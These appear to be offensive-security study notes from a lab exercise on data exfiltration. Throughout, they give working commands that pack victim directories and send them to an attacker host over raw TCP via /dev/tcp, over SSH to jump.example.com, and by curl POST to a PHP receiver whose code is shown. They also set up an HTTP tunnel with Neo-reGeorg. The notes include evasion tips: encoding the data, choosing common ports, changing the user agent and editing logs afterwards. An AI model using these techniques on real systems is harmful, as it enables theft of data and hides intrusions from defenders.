


# Data Exfiltration

### Exfil using a TCP socket

* Good for when you know there are no network-based security products&#x20;
* This is NOT recommended in a network that is well secured
* This is easy to detect because we are using non standard protocols&#x20;

<figure><figcaption></figcaption></figure>

* This shows the two hosts communicating over port 1337&#x20;
* In the real world please pick a normal port like 443 or 80, 8080, 8443 etc
* The first machine listens on 1337&#x20;
* The other machine connects to `1.2.3.4:1337`&#x20;
* The first machine establishes the connection&#x20;
* You can now send and receive data&#x20;

#### Set up your listener on the attack machines&#x20;

```
nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

* Now on the victim to exfil the data

```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

* Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

```
ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

* On the attack box, we need to convert the received data back to its original status. We will be using the dd tool to convert it back.&#x20;

```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
tar xvf task4-creds.tar
task4/ 
task4/creds.txt
```

### Exfiltration using SSH

* SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

<figure><figcaption></figcaption></figure>

* To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client.
* Let's assume `scp` is not on the target machine
* From the victim machine&#x20;
* `jump.example.com` is the attacker machine&#x20;

```
tar cf - task5/ | ssh user@jump.example.com "cd /tmp/; tar xpf -"
```

1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over to ssh. SSH clients provide a way to execute a single command without having a full session.
3. We pass the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the exfil'd file.

* This one line command will push directories or files from the victim machine
* This will create IOCs on the target host (known\_hosts file), along with different files under `/var/log`
* Use with extreme caution, ensure to edit your logs after

### HTTP POST Request

* Exfiltration data through the HTTP(s) protocol is one of the best options because it is challenging to detect. It is tough to distinguish between legitimate and malicious HTTP traffic.&#x20;
* We will use the POST HTTP method in the data exfiltration. With GET requests, all parameters are registered in log files.&#x20;
* While using POST request, URI parameters/the body is not logged. The following are some of the POST method benefits:
* POST requests are never cached
* POST request body do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

#### Example Apache Log

* Take a look at the different web logs
* The POST contains way less about our activities&#x20;

```
10.10.198.13 - - [22/Apr/2022:12:03:11 +0100] "GET /example.php?file=dGhtOnRyeWhhY2ttZQo= HTTP/1.1" 200 147 "-" "curl/7.68.0"
10.10.198.13 - - [22/Apr/2022:12:03:25 +0100] "POST /example.php HTTP/1.1" 200 147 "-" "curl/7.68.0"
```

* Ensure to use HTTPS or if using HTTP encrypt your request body
* We will need a php page that handles the post requests on our attack or exfil machine

#### Steps to exfil data

* Set up a webserver on your attack machine with a .php page&#x20;
* The C2 agent or attacker sends the data to the page using the `curl` command&#x20;
* The webserver will receive the data and store it&#x20;
* We will use `contact.php` for our web server and store the files collected in the `/tmp` folder&#x20;

#### php file&#x20;

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

* run the apache2 server&#x20;

```
sudo systemctl start apache2
```

#### Exfil the files&#x20;

```
curl --data "file=$(tar zcf - task6 | base64)" http://web.example.com/contact.php
```

* The base64 recieved will be broken due to the url encdoding over the HTTP.
* The + symbol has been replaced with ' ' (spaces)
* Can easily be fixed with the sed command&#x20;
* Ensure to alter your user agent used, otherwise `curl` will be listed and saved in the victim logs.

```
sudo sed -i 's/ /+/g' /tmp/http.bs64
#now decode it 
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

### HTTP Tunneling&#x20;

* Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via HTTP
* This is useful when certain hosts are not able to reach the internet&#x20;


* For HTTP Tunneling, we will be using a [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to establish a communication channel to access the internal network devices.
* Now let's generate an encrypted client file to upload it to the victim web server&#x20;

```
python3 neoreg.py generate -k my_key  
```

* `-k` is the key for the file so in the real world make it strong&#x20;
* The previous command generates encrypted Tunneling clients with `my_key` key in the `neoreg_servers/` directory. Note that there are various extensions available, including PHP, ASPX, JSP, etc.
* We will be using `tunnel.php`
* Upload the `tunnel.php` file to the victim web server&#x20;
* Now let's connect to the neo from our attack machine that we just uploaded&#x20;

```
python3 neoreg.py -k my_key -u http://MACHINE_IP/uploader/files/tunnel.php
```

* Once you connect, we are ready to use the tunnel connection as a proxy on our local machine `127.0.0.1:1080` in the real world change the port to something random&#x20;
* Now we can tunnel further into the network&#x20;
* To curl with socks, run the below command

```
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```

